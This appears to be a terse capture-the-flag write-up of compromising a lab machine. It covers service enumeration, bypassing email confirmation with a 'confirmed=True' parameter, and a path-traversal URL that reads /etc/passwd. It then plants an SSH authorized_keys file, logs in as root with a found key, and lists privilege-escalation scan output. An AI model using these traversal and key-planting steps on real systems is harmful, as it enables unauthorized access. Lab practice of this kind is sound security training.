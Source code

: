 #Pwned! 
```IP
192.168.180.231
```
# Enumeration
## SSH
rsa
ecdsa

## HTTP 80
redirects to login page
Other directories
register
we need email confirmation

## HTTP 33017
Development
apache http server??
```
whatweb http://192.168.180.231:33017
```
Apache 2.4.38
## 3000


# Exploitation
we can alter the data by sending parameter confirmed=True
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120115231.png?raw=true)
## LFI
```
http://192.168.180.231/?cwd=../../../../../etc/&file=passwd&download=true
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120122332.png?raw=true)
 we can path traversal to remi ssh directory
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133539.png?raw=true)
 upload here a public key named authorized_keys created with the following command:
 ![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133620.png?raw=true)
 and we are in

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120133518.png?raw=true)
# PrivEsc

## Manual
Doesnt seem possible to exploit CVE-2019-13272
https://github.com/jas502n/CVE-2019-13272/tree/master

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120140346.png?raw=true)

we have root keys in .ssh/keys/root
```
ssh root@127.0.0.1 -i .ssh/keys/root
```
we are root
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241120173339.png?raw=true)

## Automated

### Peass
active ports
```
127.0.0.1:3306
127.0.0.1:3000          0.0.0.0:*               LISTEN      847/puma 5.6.5 (tcp
```
ptrace protection is disabled (0), so sudo tokens could be abused
useful software
```
/usr/bin/nc.traditional
```
mysql  Ver 15.1 Distrib 10.3.36-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
uncommon password files
```
/etc/pam.d/passwd
/etc/passwd
/usr/share/bash-completion/completions/passwd
/usr/share/lintian/overrides/passwd
```
SUID
```
/usr/bin/chfn  --->  SuSE_9.3/10
```
.sh files in path
```
/usr/bin/gettext.sh
```

ps aux
```
puma 5.6.5 (tcp://127.0.0.1:3000) [boolean]
```
### Mimikatz

# Lateral Movement

